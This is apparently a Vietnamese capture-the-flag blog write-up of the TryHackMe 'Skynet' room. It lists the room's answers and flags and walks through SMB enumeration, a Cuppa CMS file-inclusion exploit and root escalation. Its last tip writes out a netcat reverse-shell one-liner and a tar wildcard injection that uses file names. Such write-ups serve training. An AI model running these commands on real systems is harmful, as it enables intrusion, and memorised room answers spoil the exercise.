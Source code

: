 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Skynet
description: >
  
search:
  exclude: true
hide:
  - feedback


tags:
  - THM-Room
  - Privilege Escalation
---
```


# __Skynet__

--- 

## __Task 1  Deploy and compromise the vulnerable machine!__

![Alt text](image.png)

Are you able to compromise this Terminator themed machine?

![Alt text](image-1.png)

You can follow our official walkthrough for this challenge on [our blog](https://blog.tryhackme.com/skynet-writeup/).

### __Answer the questions bellow__

!!! question "What is Miles password for his emails?"
    cyborg007haloterminator

!!! question "What is the hidden directory?"
    /45kra24zxs28v3yd

!!! question "What is the vulnerability called when you can include a remote file for malicious purposes?"
    remote file inclusion 

!!! question "What is the user flag?"
    7ce5c2109a40f958099283600a9ae807

!!! question "What is the root flag?"
    3f0372db24753accc7179a282cd6a949

### __Scenario__

HOST: 10.10.158.216

Đầu tiên, scan port

```ps1 title="CMD"
└─$ sudo nmap 10.10.158.216
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 09:49 EDT
Nmap scan report for 10.10.158.216
Host is up (0.30s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 5.29 seconds
```

Và scan dir bằng gobuster ra nhận được /squirrelmail mang chức năng đăng nhập tài khoản squirrelmail. Từ đây sẽ là tiền đề để ta có thể có những bước tiếp cận tiếp theo.

Nhìn vào kết quả của nmap, ta thấy có dịch vụ smb từ port 445 và 139. Ưu tiên scan smb để xem có gì để khai thác tiếp không.

```
└─$ smbmap  -H 10.10.158.216
[+] Guest session       IP: 10.10.158.216:445   Name: 10.10.158.216                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
         
```

Từ kết quả trên, ta thấy rằng smb cho phép login ẩn danh nhưng chỉnh có quyền đọc file/folder thôi (nhưng như thế đã quá đủ rùi ::) ). 

??? tip "Hửm???"
    smbclient //10.10.158.216/anonymous

Sau khi vào bằng ẩn danh ta osint tiếp và tìm được file chứa dãy từ đặc biệt, ta đoán đây là password cho user `milesdyson`.

Brute force password và login vào trang /squirrelmail, ta được giao diện chính. Tiếp tục lại thấy email reset password, lần này là pass smb.

![Alt text](image-2.png)

??? tip "Hửm???"
    smbclient //10.10.158.216/milesdyson -U=milesdyson 
    
    > pass: )s{A&2Z=F^n_E.B`

Login và nhận được domain mới, gobuster tiếp để nhận được giao diện login của cuppa cms ::)

??? info "Hửm???"
    Thực ra ngay chỗ squirrelmail, ta dùng searchsploit để khai thác thì ra được RCE nhưng mình mãi khum khai khác được chỗ đó, nên mới tìm hướng tiếp .-.

Roài tới đây thì step by step theo `searchsploit cuppa cms` là ra kết quả :3

??? tip "Hửm"
    ![Alt text](image-3.png)

Chú ý file backup.sh để leo thang đặc quyền root

??? tip "Hửm hửm hửm"
    cd /var/www/html

    ```ps1
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc HOST PORT >/tmp/f" > shell.sh
    echo "" > "--checkpoint-action=exec=sh shell.sh"
    echo "" > --checkpoint=1
    ```

Video khai thác

<iframe width="560" height="315" src="https://www.youtube.com/embed/2MhFNwcKdnY?si=Es4eadjjwrzUbelY" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>